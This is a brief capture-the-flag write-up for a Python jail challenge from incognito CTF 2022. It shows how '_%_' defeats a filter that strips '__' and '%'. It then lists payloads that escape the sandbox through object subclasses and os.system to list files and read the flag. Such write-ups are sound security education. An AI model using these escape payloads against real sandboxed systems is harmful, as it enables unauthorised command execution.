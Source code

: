 # incognito CTF 2022

## pyjail 1

a python jail challenge which was filtering ```__``` so we couldn't call ```__builtins__``` or etc.
after some fuzzing I found that ```%``` is also filtered. so there was an idea for me


in fuzzing part I got that ```__``` will be replaced with nothing, ```%``` also replaced with nothing.

THE IDEA =>  what if we write ```_%_```.    YES , ```%``` would be replaced with nothing and now we have ```__```.

so let's write our payload.


1) List all classes which are running in this python system by using this command. ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()```.
2) Find the index of ```<class 'os._wrap_close'>``` in this case the index of ```<class 'os._wrap_close'>``` is 138.
3) Call the system module in ```__globals__``` to list files and directories by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('ls')```.
4) Show the flag string from ```jail1``` by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('cat jail1')```.


## we got the flag

```ictf{REDACTED}```



there were 2 more pyjail challenges which we solved all of them.
